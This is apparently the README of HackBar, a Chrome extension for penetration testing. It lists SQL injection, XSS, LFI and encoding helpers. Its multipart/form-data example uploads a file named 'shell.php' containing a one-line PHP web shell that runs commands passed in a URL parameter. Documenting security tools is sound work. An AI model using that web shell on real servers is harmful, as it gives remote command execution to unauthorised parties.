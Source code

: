 # HackBar

HackBar for Chrome.

Available on [Chrome Web Store](https://chrome.google.com/webstore/detail/hackbar/ginpbkfigcoaokgflihfhhmglmbchinc).

## Requested Permissions

* tabs
* webRequest
* webRequestBlocking

## Features

* Support GET and POST (including [multipart/form-data](#multipartform-data)) method.

* SQLi
  * Dump tables from database
  * Dump columns from database
  * Union select statement
  * Error-based injection statement
  * Space to Inline comment

* XSS
  * Html encode/decode
  * String.fromCharCode encode/decode

* LFI
  * PHP wrapper - Base64

* Encoding
  * URL encode/decode
  * Base64 encode/decode
  * Hexadecimal encode/decode
  * Unicode encode/decode

* Hashing
  * MD5
  * SHA1
  * SHA256
  * SHA512

## Shortcuts

| Description | Default   | Mac           |
| ----------- | --------- | ------------- |
| Load URL    | `Alt + A` | `Control + A` |
| Split URL   | `Alt + S` | `Control + S` |
| Execute URL | `Alt + X` | `Control + X` |

## multipart/form-data

After changing **enctype** field to ```multipart/form-data```, you can put your request payload into **Body** field such as the following:

```
------WebKitFormBoundarydbJBATDXCC6CL0lZ
Content-Disposition: form-data; name="user"

user
------WebKitFormBoundarydbJBATDXCC6CL0lZ
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-httpd-php

<?php passthru($_GET['c']); ?>
------WebKitFormBoundarydbJBATDXCC6CL0lZ--
```

We will consider the first line as boundary, and reconstruct a form element to send your request.

Therefore, sent boundary will not be the same as your typed.

## Third-party Libraries

* Vue.js
* Vuetify.js
* [jshashes](https://github.com/h2non/jshashes)
* [utf8.js](https://github.com/mathiasbynens/utf8.js)
